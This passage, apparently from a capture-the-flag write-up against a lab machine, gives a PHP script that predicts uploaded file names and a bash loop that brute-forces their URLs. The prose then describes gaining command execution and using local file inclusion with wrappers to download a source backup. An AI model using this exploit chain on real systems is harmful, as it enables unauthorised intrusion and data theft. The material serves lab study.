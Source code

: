 ### Exploit.php
```php
<?php
$file_hash = uniqid();
echo md5('$file_hash' . time()) . '_' . 'd0n4ld.jpg';
?>
```

### Exploit.sh
```bash
#!/bin/bash

linkCheck="404"

while [ $linkCheck -ne "200" ]; do 
        file=$(php exploit.php)

        linkCheck=$(curl -s --write-out '%{http_code}' --output /dev/null http://10.10.11.135/image.php?img=images/uploads/$file)

        if [ $linkCheck == 200 ]; then
                echo "Link: http://10.10.11.135/image.php?img=/images/uploads/$file"
        #else
        #       echo "Not found: http://10.10.11.135/image.php?img=images/uploads/$file"
        fi
        sleep 1
done
```

Now I added the "**id**" command and edited the exploit to show me the command execution.

![](30.png)

It didn't work for me to run a reverse shell, so I went running commands to list and enumerate internal files, found the file "*source-files-backup.zip*" and downloaded it abusing the LFI + wrappers.

![](31.png)
